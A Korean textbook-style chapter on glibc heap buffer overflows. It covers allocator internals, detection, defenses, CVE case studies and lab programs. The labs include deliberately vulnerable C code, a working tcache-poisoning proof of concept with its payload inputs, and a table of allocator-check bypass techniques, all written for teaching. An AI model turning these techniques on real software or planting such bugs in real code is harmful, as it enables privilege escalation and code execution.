

# 힙 취약점 (Heap-based Buffer Overflow)

| 레벨 | 상태 | 최종 개정 | CWE |
|---|---|---|---|
| 🔴 | 🔄 개정중 | 2026-10-22 | [CWE-122](https://cwe.mitre.org/data/definitions/122.html) |

> **한눈에 보기**
> 힙 오버플로는 '이웃 청크의 메타데이터'를 노린다. 반환 주소 같은 고정 목표가 없는 대신, 할당자의 연결 리스트를 속여 `malloc`이 **공격자가 고른 주소**를 돌려주게 만든다.
> 할당자 내부 구조를 알아야 공격도 방어도 이해된다. 이 장은 복잡한 익스플로잇 체인보다 **원리를 정확히** 하는 데 집중한다.
> 막는 핵심은 스택과 같다. **길이 검사.** 그리고 할당자의 버전별 검사를 **우회가 아니라 보험**으로 이해하는 것이다.

## 1. 원리

힙에서 신뢰 경계는 두 겹이다. 첫째, 프로그램은 "이 청크에 N바이트 이상 쓰지 않는다"고 가정한다(스택과 같다). 둘째, **할당자**는 "청크 헤더와 빈 청크의 포인터는 내가 쓴 그대로다"라고 가정한다. 오버플로는 첫 가정을 깨고, 그 결과로 둘째 가정이 깨진다.

```
 사용 중 청크 A (24바이트 요청 → 0x20)      사용 중 청크 B
 ┌────────────┬────────────┬──────────────┬────────────┬────────────┬──────────┐
 │ prev_size  │ size 0x21  │ A 데이터 24B  │ prev_size  │ size 0x21  │ B 데이터  │
 └────────────┴────────────┴──────────────┴────────────┴────────────┴──────────┘
                            ▲ 쓰기 시작      ▲ 25번째 바이트 = B의 prev_size (사용 중이면 무해)
                                                          ▲ 33번째 바이트 = B의 size ★
                                                                       ▲ 41번째 = B의 데이터
```

<figure>
<figcaption>그림 1. 청크 A를 넘어 쓰면 순서대로 B의 prev_size, size, 데이터가 바뀐다. size가 바뀌면 할당자가 속고, 데이터가 바뀌면 프로그램 논리가 속는다. 구조의 상세는 01장 4절.</figcaption>
</figure>

힙 오버플로의 결과는 **무엇을 덮었는가**에 따라 세 갈래다.

| 덮은 것 | 결과 | 난이도 |
|---|---|---|
| 이웃 청크의 **데이터** | 권한 플래그, 문자열, 함수 포인터가 바뀐다. 할당자는 모른다 | 🟡 레이아웃만 맞추면 된다 |
| 이웃 청크의 **size/prev_size** | `free`·`malloc` 시 할당자가 잘못된 크기로 병합·분할 → 청크 겹침(overlap) | 🔴 |
| **빈 청크**의 연결 포인터(`next`, `fd`, `bk`) | 다음 `malloc`이 공격자 주소를 돌려준다 → 임의 쓰기 | 🔴 버전별 검사 우회 필요 |

세 번째가 이 장의 핵심이다. 할당자가 돌려준 포인터에 프로그램이 쓰는 순간, 그것이 **임의 주소 쓰기**가 된다.

### glibc malloc의 bin 구조

해제된 청크는 크기에 따라 다른 목록(bin)에 들어간다. 공격 기법은 전부 "어느 bin의 어떤 검사를 피하는가"로 분류된다.

| bin | 크기 (x86-64) | 구조 | 특징 |
|---|---|---|---|
| **tcache** | 청크 0x20~0x410 | 스레드별 단일 연결 리스트, 크기별 bin 64개, bin당 **7개**까지 | 가장 먼저 쓰인다. 검사가 가장 적다. glibc 2.26(2017)에서 도입 |
| **fastbin** | 0x20~0x80 (기본) | 단일 연결 리스트(LIFO) | tcache가 꽉 차면 여기. 병합하지 않는다 |
| **unsorted** | 모든 크기 | 이중 연결 리스트 1개 | tcache·fastbin에 안 들어간 청크의 대기실. 다음 `malloc` 때 분류 |
| **small** | 0x400 미만 | 이중 연결 리스트, 크기별 | 정확한 크기 일치 |
| **large** | 0x400 이상 | 이중 연결 리스트, 크기 범위별, 크기순 정렬 | `fd_nextsize`, `bk_nextsize` 포인터 추가 |



<figure>
<figcaption>그림 2. free와 malloc의 경로. 실무에서 만나는 작은 청크의 대부분은 tcache를 오간다. 그래서 현대 힙 공격의 출발점은 거의 항상 tcache다.</figcaption>
</figure>

**tcache 항목의 구조**(해제된 청크의 사용자 데이터 자리):

```c
typedef struct tcache_entry {
    struct tcache_entry *next;   /* 같은 bin의 다음 청크. 2.32+: (&next >> 12) ^ next 로 가려짐 */
    uintptr_t key;               /* 2.29+: double free 탐지용 표식. 2.34+: 프로세스마다 랜덤 값 */
} tcache_entry;
```

## 2. 발생하는 코드 패턴

```c
// ❌ 취약: 힙 버퍼에 길이 검사 없는 복사. 스택과 똑같다
char *name = malloc(24);
read(0, name, 64);

// ❌ 취약: 길이 계산 오류 → 작은 할당, 큰 복사 (06장)
size_t n = width * height;              // 오버플로하면 작은 값
char *img = malloc(n);
memcpy(img, src, width * height * 4);

// ❌ 취약: off-by-one. 인접 청크의 size 하위 바이트가 바뀐다. CVE-2018-6789의 형태
char *out = malloc(3 * (len / 4) + 1);
decode(in, len, out);                   // 특정 길이에서 1바이트 더 쓴다

// ❌ 취약: 해제된 포인터를 통한 쓰기(UAF). tcache 포인터를 직접 조작하는 가장 흔한 통로 (05장)
free(p);
p->next = attacker_value;
```

```c
// ✅ 안전: 요청 크기와 복사 크기를 같은 변수로. 오버플로 검사된 곱셈
size_t n;
if (__builtin_mul_overflow(width, height, &n) || n > MAX_IMG) return -1;
char *img = malloc(n);
if (!img) return -1;
memcpy(img, src, n);
```

힙 취약점은 **네 장이 얽혀 있다.** 길이 계산의 정수 오버플로([06장](06-integer-overflow.md))가 힙 오버플로를 만들고, 힙 오버플로로 빈 청크의 포인터를 바꾸는 것은 UAF([05장](05-uaf.md))와 같은 효과다. 분류는 CWE 때문에 하지만 익스플로잇 관점에서는 "힙의 어떤 바이트를 쓸 수 있는가"가 전부다.

## 3. 탐지 방법

### 3.1 코드 리뷰 / 정적 분석

리뷰 순서는 스택과 같되 **크기의 출처**를 더 집요하게 본다.

1. `malloc`/`calloc`/`realloc` 호출을 모두 찾는다. 크기 인자가 상수인지, 계산식인지, 입력인지.
2. 계산식이면 곱셈·덧셈의 오버플로 가능성을 본다. `calloc(n, size)`는 곱셈 오버플로를 검사하지만 `malloc(n * size)`는 안 한다.
3. 그 포인터에 쓰는 모든 곳의 길이가 **같은 크기 변수**에서 왔는지 본다. 다른 변수면 두 값이 같다는 근거를 찾는다.
4. 포인터의 수명을 본다. `free` 뒤에 같은 포인터를 쓰는 경로가 있으면 05장이다.

```bash
grep -rnE '\b(malloc|calloc|realloc|alloca)\s*\(' --include='*.c' . | grep -E '\*|\+'   # 계산식 크기
grep -rnE '\b(memcpy|memmove|strcpy|read|recv)\s*\(' --include='*.c' .                 # 복사 길이의 출처
```

**CodeQL**: `cpp/overrunning-write`(CWE-120/787), `cpp/integer-multiplication-cast-to-long`, `cpp/uncontrolled-allocation-size`(CWE-190/789). **Semgrep** `p/c` 룰셋에 `malloc(x * y)` 형태를 잡는 룰이 있다. 정적 분석은 "작은 할당, 큰 복사"의 두 지점이 멀리 떨어져 있을수록 약하다. 그래서 힙은 **동적 탐지가 주력**이다.

### 3.2 동적 테스트

**AddressSanitizer가 기준이다.** 1바이트 오버플로도 쓰는 순간 잡는다. 할당자가 나중에 `free`에서 아우성치는 것과 달리 **원인 지점**을 알려 준다.

```bash
gcc -g -fsanitize=address -o hof_asan hof.c          # 4.1의 hof.c
python3 -c "import sys; sys.stdout.buffer.write(b'A'*32)" | ./hof_asan
# ==10913==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x503000000058
# WRITE of size 32 at 0x503000000058 thread T0
#     #0 0x... in read ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors.inc:978
#     #1 0x... in main hof.c:11             ← 원인 (read 인터셉터 바로 위 프레임)
# 0x503000000058 is located 0 bytes after 24-byte region [0x503000000040,0x503000000058)
# allocated by thread T0 here: ...          ← 어디서 할당한 청크인지
```

**glibc 자체 검사 메시지**를 안다. ASan 없이 돌릴 때 이 문구가 나오면 힙 손상이다. 원인이 아니라 **발각 지점**이라는 것을 기억한다.

| 메시지 | 뜻 |
|---|---|
| `free(): invalid pointer` / `munmap_chunk(): invalid pointer` | size 필드가 깨졌거나 정렬이 틀림 |
| `double free or corruption (out)` / `(!prev)` / `(fasttop)` | size·플래그 불일치, fastbin 꼭대기 중복 |
| `free(): double free detected in tcache 2` | tcache `key` 검사에 걸림 (2.29+) |
| `malloc(): unaligned tcache chunk detected` | tcache `next`가 16바이트 정렬이 아님 (safe-linking 이후 포이즈닝 실패의 흔한 흔적) |
| `corrupted size vs. prev_size` | 병합 시 이웃의 prev_size와 size 불일치 |

`MALLOC_CHECK_=3` 환경 변수(glibc 2.34부터는 `LD_PRELOAD=libc_malloc_debug.so.0`을 함께 줘야 동작)나 Valgrind(`valgrind --tool=memcheck`)도 쓰지만, 2024년 이후 기본은 ASan이다. 퍼징도 ASan 빌드로 한다. [09장](09-fuzzing.md).

## 4. 실습 🧪

glibc 2.39(Ubuntu 24.04) 기준. 힙 실습은 **glibc 버전에 따라 결과가 달라진다**. `ldd --version`으로 확인하고 5절의 표와 대조한다. 완화 플래그는 끌 필요가 없다. 힙 공격은 카나리·NX와 무관하다.

### 4.1 이웃 청크의 데이터 덮어쓰기

```c
/* hof.c */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(void) {
    char *name = malloc(24);
    char *role = malloc(24);
    strcpy(role, "user");
    read(0, name, 64);           /* ❌ 24바이트 청크에 최대 64바이트 */
    printf("name=%.8s role=%s\n", name, role);
    free(role);
    free(name);
    return 0;
}
```

```bash
gcc -g -O0 -o hof hof.c
echo -n alice | ./hof                                # name=alice role=user
python3 -c "import sys; sys.stdout.buffer.write(b'A'*24 + b'\x21' + b'\x00'*7 + b'admin\x00')" | ./hof
# name=AAAAAAAA role=admin                           ← 정상 종료. 할당자는 눈치채지 못한다
python3 -c "import sys; sys.stdout.buffer.write(b'A'*32)" | ./hof
# double free or corruption (out)                   ← size를 0x4141...로 덮어 free에서 발각
```

두 번째 입력이 핵심이다. `role`의 size 필드(`0x21`)를 **원래 값 그대로** 지나가면 할당자 검사는 전부 통과한다. 세 번째처럼 size를 깨뜨리면 `free`에서 잡힌다. 공격자는 메타데이터를 깨지 않고 지나가거나, 깨더라도 검사를 통과하는 값으로 깬다.

### 4.2 tcache 포이즈닝 (tcache poisoning)

빈 청크의 `next`를 바꾸면 두 번째 `malloc`이 그 주소를 돌려준다. 오버플로 대신 UAF로 `next`를 쓰는 형태가 가장 단순하므로 그것으로 원리를 본다.

```c
/* tcache.c */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

long target __attribute__((aligned(16))) = 0;   /* 공격자가 쓰고 싶은 곳 (.data) */

int main(void) {
    char *a = malloc(32);
    char *b = malloc(32);
    free(a);                     /* tcache[0x30]: a */
    free(b);                     /* tcache[0x30]: b -> a */
    printf("b->next (mangled) = %#lx\n", *(uint64_t *)b);
    /* ❌ 해제된 b를 계속 씀(UAF). next를 target으로 바꾼다 */
    uint64_t pos = (uint64_t)b;
    *(uint64_t *)b = (pos >> 12) ^ (uint64_t)&target;   /* 2.32+ safe-linking: PROTECT_PTR */
    char *c = malloc(32);        /* b */
    char *d = malloc(32);        /* target */
    printf("c=%p d=%p &target=%p\n", c, d, (void *)&target);
    strcpy(d, "pwned");
    printf("target = %s\n", (char *)&target);
    return 0;
}
```

```bash
gcc -g -O0 -o tcache tcache.c && ./tcache
# b->next (mangled) = 0x556c788493c7
# c=0x55692e1672d0 d=0x55690c43b020 &target=0x55690c43b020
# target = pwned
```

`d`가 힙이 아니라 `.data`의 `target`이다. 프로그램이 `d`에 쓰는 것이 곧 **임의 주소 쓰기**다. 실제 익스플로잇은 `target` 자리에 함수 포인터나 GOT, `__free_hook`(2.34에서 제거) 같은 것을 둔다.

세 가지를 직접 바꿔 보며 **검사의 의미**를 확인한다.

| 바꾸는 것 | 결과 (glibc 2.39) | 왜 |
|---|---|---|
| `(pos >> 12) ^` 를 빼고 `&target`을 그대로 쓴다 | `malloc(): unaligned tcache chunk detected` | safe-linking. 가리지 않은 포인터는 해독 과정에서 엉뚱한 값이 되어 정렬 검사에 걸린다 (힙 주소의 12~15번째 비트가 우연히 0이면 1/16 확률로 검사를 통과하고 엉뚱한 주소에 쓰다 SIGSEGV) |
| `target`에서 `aligned(16)`을 뺀다 | 같은 메시지 | 2.32+는 tcache에서 꺼내는 청크가 16바이트 정렬인지 검사한다 |
| `free(b)`를 두 번 쓴다 | `free(): double free detected in tcache 2` | `key` 필드가 tcache 표식과 같으면 bin을 뒤져 중복을 찾는다 (2.29+) |

safe-linking의 식 `(pos >> 12) ^ ptr`에서 `pos`는 **`next` 필드 자신의 주소**다. 공격자가 이 값을 알려면 힙 주소 누출이 필요하다. 그래서 2.32 이후 tcache 포이즈닝은 **"힙 주소 누출 + 쓰기"** 두 단계가 됐다. 2.26~2.31에서는 쓰기 하나로 끝났다.

### 4.3 gdb에서 bin 보기

```
$ gdb -q ./tcache
(gdb) break 14        # printf 줄
(gdb) run
(gdb) x/4gx b-16
0x5555555592c0: 0x0000000000000000  0x0000000000000031   ; size 0x30 | PREV_INUSE
0x5555555592d0: 0x000055500000c7f9  0x407259070666a4e9   ; next(가려짐) → a, key(랜덤)
(gdb) x/2gx a
0x5555555592a0: 0x0000000555555559  0x407259070666a4e9   ; next = (pos>>12) ^ NULL, 같은 key
```

`a`의 `next`는 리스트 끝(NULL)인데 `0x555555559`로 보인다. `(0x5555555592a0 >> 12) ^ 0`이기 때문이다. 가려진 값에서 `pos >> 12`를 역산할 수 있다는 점이 7절 첫 줄의 우회와 이어진다.

pwndbg가 있으면 `bins`로 tcache의 각 bin과 연결 상태를, `vis_heap_chunks`로 청크를 색으로 구분해 본다. 포이즈닝 뒤 `bins`를 다시 보면 `0x30` bin의 두 번째 항목이 `target` 주소로 바뀐 것이 보인다.

## 5. 익스플로잇 검증

| 단계 | 확인 | 심각도에 미치는 영향 |
|---|---|---|
| 1 | ASan에서 `heap-buffer-overflow` WRITE | 취약점 존재. 최소 DoS |
| 2 | 넘친 바이트가 **이웃 청크 데이터**에 닿고, 그 데이터가 보안 결정에 쓰인다 (4.1) | 권한 상승·논리 우회. High |
| 3 | 넘친 바이트가 **빈 청크의 포인터** 또는 **size**에 닿는다 | 임의 쓰기 가능성. 버전별 검사와 누출 여부에 따라 High~Critical |
| 4 | `malloc`이 공격자 주소를 돌려주고, 거기에 쓰기가 일어난다 (4.2) | 임의 쓰기 확정 → 코드 실행. Critical |

**버전이 심각도를 바꾼다.** 같은 1바이트 오버플로가 glibc 2.27(Ubuntu 18.04)에서는 쓰기 한 번으로 4단계, 2.39에서는 힙 누출이 하나 더 필요하다. 보고서에 대상 환경의 glibc 버전을 적는 이유다.

| glibc | 변화 | 공격에 미친 영향 |
|---|---|---|
| 2.26 (2017) | tcache 도입 | 검사가 거의 없는 빠른 경로가 생김. 포이즈닝·double free가 쉬워짐 |
| 2.29 (2019) | tcache `key` 필드로 double free 탐지 | 단순 double free 차단. `key`를 덮어쓰면 우회 |
| 2.32 (2020) | **safe-linking**: tcache·fastbin의 단일 연결 포인터를 `(pos>>12) ^ ptr`로 가림, 정렬 검사 | 힙 주소 누출 없이는 포이즈닝 불가 |
| 2.34 (2021) | `__malloc_hook`, `__free_hook` 제거. tcache `key`를 랜덤 값으로 | 고전적 "훅 덮어쓰기" 종착지 소멸. `key` 위조 어려워짐 |

> 🔴 이 표는 glibc만 다룬다. jemalloc(Firefox, Rust 일부), PartitionAlloc(Chromium), 커널 SLUB, musl(Alpine)은 구조와 검사가 전혀 다르다. "힙 취약점"의 심각도는 **어떤 할당자 위에서 도는가**를 모르면 매길 수 없다.

## 6. 방어

| 계층 | 조치 | 효과 |
|---|---|---|
| 코드 | 복사 길이를 할당 크기와 **같은 변수**로. 크기 계산은 오버플로 검사(`__builtin_mul_overflow`, `calloc`) | 근본 제거 |
| 코드 | 해제 직후 포인터를 NULL로. 소유권이 분명한 구조(한 곳에서만 `free`) | UAF 경로 차단 ([05장](05-uaf.md)) |
| 코드 | 메모리 안전 언어로 파서·디코더 교체 | 유형 자체 제거. 이미지·압축·프로토콜 파서부터 |
| 컴파일러 | 테스트·퍼징 빌드에 `-fsanitize=address` | 쓰는 순간 검출 |
| 컴파일러 | `-D_FORTIFY_SOURCE=2`, `-fstack-clash-protection` | 길이 아는 복사만 검사. 보조 |
| 런타임 | 최신 glibc (safe-linking, 훅 제거). 보안 강화 할당자(hardened_malloc, Scudo) | 익스플로잇 난도 상승. 취약점은 남는다 |
| 인프라 | ASLR, 최소 권한, 샌드박스(seccomp, 브라우저 렌더러 격리) | 임의 쓰기 뒤 피해 범위 축소 |
| 탐지 | glibc 손상 메시지(3.2 표) 로그 알림, 크래시 수집 | 공격 시도·실패 포착 |

**하지 말아야 할 것**: "glibc가 검사하니까 괜찮다." 할당자 검사는 **공격자가 실수했을 때** 잡는다. 7절처럼 검사를 알고 들어오는 공격자는 통과한다. 검사는 보험이고 근본 해결은 코드다.

## 7. 우회 기법 🔴

| 방어 | 우회 |
|---|---|
| safe-linking (2.32+) | 힙 주소 누출 1회 → `pos >> 12`를 계산해 가린 포인터를 직접 만든다. 같은 페이지 안이면 하위 12비트는 그대로이므로 부분 누출로도 충분 |
| tcache `key` double free 탐지 | 첫 `free` 뒤 `key` 8바이트를 아무 값으로 덮고 다시 `free`. 또는 tcache를 7개로 채운 뒤 fastbin에서 double free (fastbin은 꼭대기만 비교) |
| 정렬 검사 | 목표 주소를 16바이트 정렬된 곳으로 고른다. 함수 포인터 대부분이 그렇다 |
| 훅 제거 (2.34+) | `exit` 경로의 함수 포인터(`_IO_FILE`의 vtable, `__exit_funcs`), 스택의 반환 주소(힙 → 스택 주소는 `environ` 누출로), GOT(Partial RELRO) |
| 청크 겹침 검사 (`corrupted size vs. prev_size`) | prev_size와 size를 **일관되게** 위조. 병합 대상 청크를 직접 만들어 둔다 |
| 할당 순서 예측 불가 | **heap feng shui**: 원하는 크기의 할당·해제를 반복해 bin을 비우거나 채워, 취약 청크의 이웃을 공격자가 고른 객체로 만든다. 브라우저·커널 익스플로잇의 표준 절차 |

heap feng shui의 원리는 단순하다. 할당자는 **결정적**(deterministic)이다. 같은 크기를 같은 순서로 요청하면 같은 배치가 나온다. 공격자는 (1) 취약 청크와 같은 크기 bin을 먼저 비우고 (2) 취약 청크를 할당시키고 (3) 바로 다음에 목표 객체(함수 포인터를 가진 구조체)를 같은 크기로 할당시킨다. 그러면 오버플로가 목표 객체의 포인터에 닿는다. 기법 이름은 다양하지만(House of Force, Spirit, Botcake 등) 전부 "어느 검사를 어떻게 통과시켜 어떤 청크를 겹치게 하는가"의 변주다. 목록은 [how2heap](https://github.com/shellphish/how2heap)이 glibc 버전별로 유지한다.

## 8. 실제 CVE 사례

| CVE | 제품 | 핵심 | 패치 |
|---|---|---|---|
| [CVE-2021-3156](https://nvd.nist.gov/vuln/detail/CVE-2021-3156) | sudo 1.8.2~1.8.31p2, 1.9.0~1.9.5p1 | "Baron Samedit". `sudoedit -s`에서 백슬래시 이스케이프 해제 중 힙 오버플로. 로컬 → root. 📎 Qualys 분석 기준 2011년 7월 커밋에서 도입되어 약 10년간 존재 ([Qualys, oss-security](http://www.openwall.com/lists/oss-security/2021/01/26/3)) | [sudo 1.9.5p2 릴리스 노트](https://www.sudo.ws/stable.html#1.9.5p2) |
| [CVE-2023-4911](https://nvd.nist.gov/vuln/detail/CVE-2023-4911) | glibc 2.34~2.38 ld.so | "Looney Tunables". `GLIBC_TUNABLES` 환경 변수 파싱에서 버퍼 오버플로. setuid 실행 시 로컬 → root | [Qualys 권고](https://www.qualys.com/2023/10/03/cve-2023-4911/looney-tunables-local-privilege-escalation-glibc-ld-so.txt) |
| [CVE-2018-6789](https://nvd.nist.gov/vuln/detail/CVE-2018-6789) | Exim < 4.90.1 | base64 디코더의 버퍼 크기 계산 오류로 **1바이트** 힙 오버플로. 인증 전 원격 코드 실행 | [DEVCORE 분석](https://devco.re/blog/2018/03/06/exim-off-by-one-RCE-exploiting-CVE-2018-6789-en/) |
| [CVE-2015-0235](https://nvd.nist.gov/vuln/detail/CVE-2015-0235) | glibc < 2.18 | "GHOST". `gethostbyname()`의 `__nss_hostname_digits_dots()`에서 크기 계산 누락 → 힙 오버플로. 2013년에 고쳐졌지만 보안 패치로 분류되지 않아 배포판에 남음 | [Qualys 권고](https://www.qualys.com/2015/01/27/cve-2015-0235/GHOST-CVE-2015-0235.txt) |
| [CVE-2023-4863](https://nvd.nist.gov/vuln/detail/CVE-2023-4863) | libwebp < 1.3.2 | 허프만 테이블 구성(`BuildHuffmanTable`)에서 2차 테이블 크기 계산 오류 → 힙 오버플로. WebP 이미지 하나로 브라우저·메신저 원격 코드 실행, 실제 공격에 사용 | [패치 커밋](https://github.com/webmproject/libwebp/commit/902bc919) |

**sudo (CVE-2021-3156)에서 배울 것**: 권고문 기준, 수정(1.9.5p2)은 백슬래시 해제 조건을 고치고 `sudoedit`에서 셸 모드 플래그 조합을 파서에서 거부하도록 했다. 오버플로 자체는 "문자열 끝의 백슬래시 하나"가 NUL을 건너뛰게 만든 off-by-one 계열이다. Qualys는 세 가지 서로 다른 힙 객체를 목표로 삼아 익스플로잇했다. **1바이트짜리 오버플로가 root가 되는 과정**을 [7부 워크스루](../part7-walkthroughs/04-cve-2021-3156-sudo-baron-samedit.md)에서 끝까지 따라간다.

**glibc Looney Tunables (CVE-2023-4911)에서 배울 것**: 패치는 `parse_tunables()`가 입력 끝에 도달하면 즉시 종료하도록 바꿨다. `name=name=val` 형태의 입력이 **두 번 처리**되어 버퍼를 넘었다. 2절의 "복사 길이와 할당 크기가 다른 변수"의 변형이다. 동적 로더는 모든 setuid 프로그램보다 먼저 실행되므로, 로더의 버그 하나가 시스템 전체의 로컬 권한 상승이 된다.

**Exim (CVE-2018-6789)에서 배울 것**: DEVCORE 분석 기준, 디코드 버퍼를 `3*(len/4)+1`로 잡았는데 길이가 4n+3인 잘못된 base64 입력에서 1바이트를 더 썼고, 패치는 버퍼 크기 계산을 늘렸다. 그 1바이트가 이웃 청크 size의 하위 바이트를 바꿔 청크 겹침을 만들었다. **"1바이트쯤이야"가 성립하지 않는다**는 증거다.

**libwebp (CVE-2023-4863)에서 배울 것**: 패치는 허프만 테이블을 만들기 전에 필요한 크기를 먼저 검증하고, 부족하면 더 할당하도록 바꿨다. 이미지 디코더는 "입력이 곧 레이아웃"이라 heap feng shui가 공격자에게 유리하다. 같은 라이브러리가 브라우저·OS·메신저에 모두 들어가 있어 패치 범위가 수백 제품이었다. [5부 4장 공급망](../part5-extended/04-supply-chain.md).

## 9. 체크리스트

**코드 리뷰할 때**
- [ ] `malloc(a * b)` 형태가 있는가? 곱셈 오버플로 검사가 있는가?
- [ ] 할당 크기 변수와 복사 길이 변수가 같은 것인가? 다르면 왜 같다고 믿는가?
- [ ] `+1`, `-1`이 붙은 크기 계산에서 NUL·경계 처리가 정확한가? (off-by-one)
- [ ] 디코더·파서의 출력 버퍼 크기가 "최악의 입력"을 기준으로 계산됐는가?
- [ ] `free` 뒤에 포인터를 NULL로 만드는가? 같은 포인터가 두 구조체에서 참조되는가?

**테스트할 때**
- [ ] ASan 빌드로 모든 테스트와 퍼징을 돌렸는가?
- [ ] glibc 손상 메시지(`double free or corruption`, `invalid pointer`)가 로그에 있는가?
- [ ] 대상 환경의 glibc 버전과 할당자(glibc/jemalloc/musl)를 보고서에 적었는가?

**배포 전**
- [ ] glibc가 2.32 이상(safe-linking)인가?
- [ ] 외부 입력을 파싱하는 C 라이브러리(이미지, 압축, 폰트) 버전이 최신인가?
- [ ] 파서가 샌드박스나 별도 프로세스에서 도는가?

## 10. 더 읽기

- [CWE-122: Heap-based Buffer Overflow](https://cwe.mitre.org/data/definitions/122.html) · 공식 정의
- [glibc Wiki: MallocInternals](https://sourceware.org/glibc/wiki/MallocInternals) · 청크·bin·아레나의 1차 출처. 이 장의 표는 이 문서를 요약한 것
- [glibc 소스 `malloc/malloc.c`](https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c) · `tcache_get`, `tcache_put`, `PROTECT_PTR` 매크로를 직접 읽는다. 주석이 충실하다
- Eyal Itkin (Check Point Research), "Safe-Linking: Eliminating a 20 year-old malloc() exploit primitive" (2020). [원문](https://research.checkpoint.com/2020/safe-linking-eliminating-a-20-year-old-malloc-exploit-primitive/) · safe-linking 설계자의 설명
- [how2heap](https://github.com/shellphish/how2heap) · glibc 버전별 힙 기법의 동작하는 예제 모음. 4.2를 끝낸 뒤 `tcache_poisoning.c`부터
- Phantasmal Phantasmagoria, "The Malloc Maleficarum" (2005). [원문](https://seclists.org/bugtraq/2005/Oct/118) · "House of ..." 명명의 기원. 역사적 참고
- [AddressSanitizer 문서](https://github.com/google/sanitizers/wiki/AddressSanitizer) · 3.2의 출력 읽는 법
- [pwn.college: Dynamic Allocator Misuse](https://pwn.college/) · tcache 포이즈닝을 단계별 문제로

## 변경 이력

| 날짜 | 변경 | 기여자 |
|---|---|---|
| 2026-10-21 | 초안(뼈대) 작성 | @anthonynoh5202 |
| 2026-10-22 | 본문 작성. 실습 출력과 검사 메시지는 Ubuntu 24.04 / glibc 2.39에서 실측. glibc 버전별 변화는 how2heap·Check Point 자료로 확인 | @anthonynoh5202 |
| 2026-10-22 | 기술 검증: CVE 5건 cvelistV5 대조(모두 실존), sudo·Qualys 링크를 레코드 URL로 교체. glibc 버전별 변화(tcache 2.26, key 2.29, safe-linking 2.32, 랜덤 key·훅 제거 2.34)와 3.2절 손상 메시지를 glibc `malloc.c` 태그별 소스로 확인. hof.c·tcache.c와 세 변형을 재실행(모두 본문대로). ASan 출력을 gcc 13 형식(`0 bytes after`)으로 교체, 존재하지 않는 CodeQL ID `cpp/overrun-write` 삭제, `MALLOC_CHECK_`의 2.34+ 조건 추가 | 검증팀 |
